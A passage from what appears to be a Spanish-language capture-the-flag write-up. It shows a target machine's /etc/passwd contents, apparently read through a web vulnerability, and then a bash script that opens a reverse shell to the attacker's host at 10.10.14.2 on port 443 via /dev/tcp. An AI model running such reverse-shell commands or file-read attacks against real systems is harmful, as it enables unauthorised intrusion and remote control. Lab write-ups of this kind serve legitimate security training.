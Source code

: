 ```bash
❯ catn results4.txt
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>#                                          
```

Ahora tratemos de entablarnos una reverse shell invocando un recurso a nuestra máquina por el puerto 80 y pipeandolo con bash. Por lo tanto, creamos primero el recurso de la reserse shell:

```bash
❯ catn r
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.2/443 0>&1
```
